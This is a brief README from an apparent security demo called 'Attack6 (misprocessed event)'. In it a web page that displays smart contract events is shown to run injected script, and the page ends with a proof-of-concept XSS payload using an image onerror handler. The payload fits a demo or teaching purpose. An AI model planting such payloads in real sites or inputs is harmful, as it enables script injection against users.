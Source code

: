 

# Attack6 (misprocessed event)

Demo Website: Listen the smart contract events.
## 1. Deploy a contract [Done]

## 2. Listen to the contract [Done]

## 3. XSS [Done]
Success
<img src=x onerror=alert(666)>